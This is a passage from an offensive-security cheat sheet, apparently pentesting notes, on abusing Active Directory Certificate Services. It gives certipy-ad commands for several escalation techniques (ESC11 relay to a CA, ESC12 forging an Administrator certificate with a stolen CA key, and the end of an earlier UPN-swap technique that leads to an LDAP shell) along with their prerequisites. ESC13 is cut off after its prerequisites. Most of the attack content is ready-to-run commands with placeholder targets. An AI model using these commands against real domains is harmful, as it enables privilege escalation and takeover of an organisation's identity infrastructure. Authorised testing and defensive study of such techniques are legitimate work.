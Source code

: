 ```console
$ certipy-ad account update -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -user '<USERNAME>' -upn '<USERNAME>@<DOMAIN>'
```

```console
$ certipy-ad auth -pfx dc.pfx -dc-ip '<RHOST>' -ldap-shell
```

### ESC11: IF_ENFORCEENCRYPTICERTREQUEST

#### Prerequisistes

- Certificate Authority is not configured with `IF_ENFORCEENCRYPTICERTREQUEST`

#### Usage

```console
$ certipy-ad relay -target 'rpc://<CA>' -ca 'CA'
```

```console
$ certipy-ad auth -pfx administrator.pfx -domain '<DOMAIN>'
```

### ESC12: YubiHSM2 Vulnerability (Specific Context)

#### Prerequisistes

- The `CA` uses a `YubiHSM2` for `storing` and `managing` its `private signing keys`
- At least a `low-privileged` (non-administrative) `shell access` on this `CA server`
- Specific `vulnerability` or `weakness` exists in the `YubiHSM2's on-host software components` that grants the ability to interact with or control `HSM operations`

#### Usage

```console
$ certipy-ad forge -ca-pfx '<CA>.pfx' -upn 'Administrator@<DOMAIN>' -sid 'S-1-5-21-...-500' -crl 'ldap:///'
```

### ESC13: Issuance Policy with Privileged Group Linked

> https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53

> https://github.com/JonasBK/Powershell/blob/master/Check-ADCSESC13.ps1?source=post_page-----fda4272fbd53--------------------------------

#### Prerequisites

- `Certificate template` specifies one or more `Issuance Policy OIDs` in its configuration
- In Active Directory's Configuration Naming Context (typically under `CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=...`), an `OID object` corresponding to the one in the certificate template can have its `msDS-OIDToGroupLink` attribute populated with the `distinguished name` (`DN`) of an `AD security group`
- `Authentication` using a `certificate` containing such an `Issuance Policy OID` so that the KDC can read this `OID` from the `certificate`
- `Group` linked (`msDS-OIDToGroupLink`) to the `OID`
